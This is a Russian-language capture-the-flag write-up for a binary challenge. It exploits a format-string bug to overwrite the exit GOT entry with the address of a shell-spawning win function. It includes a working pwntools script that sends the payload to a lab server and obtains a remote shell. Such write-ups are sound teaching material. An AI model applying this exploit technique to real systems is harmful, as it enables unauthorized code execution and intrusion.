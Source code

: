 # Pwn 1
Для начала запустим программу.\
После ввода строки она вывела нашу же строку.

Запустим данную программу ещё раз и опробуем ввести ```%p``` и видим вот такой ответ:\
![pwn1_1.png](pwn1_1.png "ещё один кусочек стека мне в копилку")

Это означает, что у нас уязвимость форматирования строки\
Небольшим научным перебором вычисляем смещение нашего буфера относительно указателя printf:\
![pwn1_2.png](pwn1_2.png "Поберегите руки...")

Теперь же с помощью objdump мы видим нашу функцию main а так же неизвестную функцию win\
При более тщательной проверке функции win мы понимаем, что эта функция запускает терминал\
Запомним адрес этой функции 0x401156\

Заметим, что в main вместо обычного ret используется exit@plt, рассмотрим его:
![pwn1_3.png](pwn1_3.png "Никогда не пытайтесь понять код, просто примите...")

В нём происходит переход к инструкции, которая хранится в 0x404018\
А учитывая уязвимость форматирования строки, которую мы можем использовать, чтобы переписать память на ту, что нам нужна, то запишем по адресу 0x404018 указатель на функцию win\
для этого мы можем использовать библиотеку pwntools, а именно pwnlib.fmtstr, которая соберёт нам строку для изменения памяти

для этого напишем такой код
```python
from pwnlib import fmtstr
from pwn import *

context.clear(arch='amd64')

def sendPayl(payload):
    print(payload)
    p = remote('192.168.12.13', 1923)
    p.sendline(payload)
    p.interactive()

buf = fmtstr.fmtstr_payload(6, {0x404018: 0x401156})

sendPayl(buf)
```

Архитектура сервера была вычислена также опытным путём (С другими архитектурами программа не работала)\

Где ```fmtstr.fmtstr_payload```, по ранее вычисленному смещению 6 и настройке записи 0x401156 в ячейку памяти с адресом 0x404018, создаёт строку, которая сразу отправляется на сервер\
И вот мы получили терминал на сервере:
![pwn1_4.png](pwn1_4.png "Запомните, а то забудете")

Ну а теперь задача получить флаг становится тривиальной:
![pwn1_5.png](pwn1_5.png "На что я трачу жизнь...")
